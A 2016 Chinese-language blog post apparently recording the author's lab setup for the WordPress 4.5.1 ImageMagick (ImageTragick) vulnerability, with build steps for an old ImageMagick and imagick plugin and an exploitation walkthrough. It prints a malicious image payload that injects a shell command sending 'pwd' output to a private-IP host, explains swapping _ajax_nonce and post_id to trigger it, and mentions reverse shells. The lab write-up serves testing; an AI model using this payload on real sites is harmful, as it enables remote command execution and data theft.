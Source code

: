 ```yaml
---
layout: post
title: "Wordpress ImageMagic漏洞测试环境搭建&利用的心路历程"
date: 2016-06-17 16:26:23 +0800
comments: true
categories: 技术
tags: [Web漏洞] 
---
```


最近工作上的原因需要搭建一个Wordpress的ImageMagic漏洞环境，搭建过程中遇到了一些头疼的问题，以及对于利用方法的一些思考，在这里总结一下。

<!-- more -->

## 环境搭建

我使用的是Ubuntu14.04 64位版，使用Ngnix+php5fmp+mysql搭建，Wordpress版本选择的是4.5.1。服务配置这里没什么说的，我们直接来看搭建需要注意的地方。

首先Wordpress需要关闭掉自动升级功能，否则被修复到无漏洞版本就尴尬了。在wp-confing.php文件最后添加如下一行代码，然后安装即可。

```php
define('AUTOMATIC_UPDATER_DISABLED',true);
```

后面就是ImageMagic的安装了，Ubuntu默认源中是修复了的版本，所以我们只能去找源码编译。找到合适的源码也是一件很蛋疼的事情，我最后是在[http://www.imagemagick.org/download/releases/](http://www.imagemagick.org/download/releases/)这里找到的版本，不过这里面有的版本在我的环境中编译总是会报错，最终我编译成功的是6.9.0.0这个版本。编译命令如下，需注意要指定一个明确的路径，以便于之后编译php的imagick插件时提供。

```sh
./configure --prefix=/usr/local/imagemagick
make
make install
```

之后下载php的imagick插件源码编译，这里我选择的是3.4.1版本，操作如下：

```sh
wget https://pecl.php.net/get/imagick-3.4.1.tgz
tar -zxvf imagick-3.4.1.tgz 
cd imagick-3.4.1/
phpize
./configure --prefix=/usr/local/imagick --with-php-config=/usr/bin/php-config  --with-imagick=/usr/local/imagemagick
make
make install
```

在php.ini中添加插件so重启php5fpm即可。phpinfo如下图所示：

![phpinfo](/images/content/2016/06-17-phpinfo.png)

## Wordpress ImageMagic漏洞利用

在阅读ricter师傅的[文章](http://ricterz.me/posts/Write%20Up%3A%20Remote%20Command%20Execute%20in%20Wordpress%204.5.1?_=1466130906033)时，自己的理解有些问题，没太搞懂_ajax_nonce的意思，导致在测试漏洞时大部分时间用来找_ajax_nonce了。

通过作者或以上权限，提交一篇文章，并上传一张正常图片，通过编辑图片的功能可以获取该图片的postid，然后上传内容为以下内容的png图片，同样通过编辑图片功能可以获取该图片的postid和_ajax_nonce。

```php
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|php -r "file_get_contents(\"http://172.16.107.144/\".system(\"pwd\"));)'
pop graphic-context
```
这里关于_ajax_nonce的值，我翻看了一下代码，只要我们找到任意的image_editor这个action和恶意图片postid的_ajax_nonce就可以，因为他后台处理只用了这两个值。

![nonce](/images/content/2016/06-17-nonce.png)

然后抓取正常图片任意编辑操作的提交（一般都是imgedit-preview的action），修改_ajax_nonce和post_id为攻击内图片，即可触发漏洞利用。

因为这个漏洞没有回显，所以一遍使用直接反弹shell的方法获取交互，但是由于反弹不是很稳定，这里建议使用上面恶意图片内容中给出的php执行访问自己网站并查看日志的方法来实现简单的交互。